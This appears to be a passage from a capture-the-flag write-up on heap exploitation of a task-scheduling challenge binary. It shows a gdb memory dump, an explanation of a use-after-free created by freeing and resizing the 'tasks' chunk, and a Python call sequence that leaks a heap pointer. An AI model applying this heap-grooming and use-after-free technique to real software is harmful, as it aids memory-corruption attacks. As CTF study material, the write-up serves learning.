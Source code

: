 ```
N: 10
Coins: 1 2 3 4 5 6 7 8 9 10
Amount to calculate: 13
```

```
0x555555578fa0: 0x0000000000000001      0x0000000000000091
0x555555578fb0: 0x0000555555565a68      0x0000555555578fc8
0x555555578fc0: 0x000000000000000b      0x616843206e696f43
0x555555578fd0: 0x000000000065676e      0x0000555555578fe8
0x555555578fe0: 0x000000000000000e      0x676c4120776f6c53
0x555555578ff0: 0x00006d687469726f      0x0000555555579008
0x555555579000: 0x0000000000000000      0x0000000000000000
0x555555579010: 0x0000000000000000      0x0000555555579560　<--
0x555555579020: 0x000000000000000a      0x000000000000000d
0x555555579030: 0x0000000000000000      0x0000000000000091
```

Create this structure first, free it, then extend `tasks` and reacquire this address. Then call `resume` --> `destroy` --> `resume` to use this chunk as `algo_l`.

The script leading up to the leak is as follows. (Each python function only contains parameters, so it is omitted for now)

When adding the 10th task, the size of the `tasks` chunk will change from 0x50 to 0x90, so free the coinchange task in advance, add the 10th task, cause resize, and go to this chunk. By moving it and then `destroying` the 4th algorithm, we can read the pointer at +0x48 from the chunk and get the leak.

```python
coin([0x1111]*180, 0xbeef) # large chunk for leak
bubble([1])

fib(1)
fib(1)
fib(1)
bubble([1]) # place slow_algo to slot #5 --> #4 --> delete
fib(1)
fib(1)

destroy(0) # free 0x90
bubble([1])

fib(1)
fib(1) # resize tasks to 0x90

resume(7) # resume once
destroy(4) # corrupt algo_l
resume(6) # resume again
```

And we got leak around Algo structure. I think libc will also leak if the initial coinchange array is made larger, but it is not necessary this time.
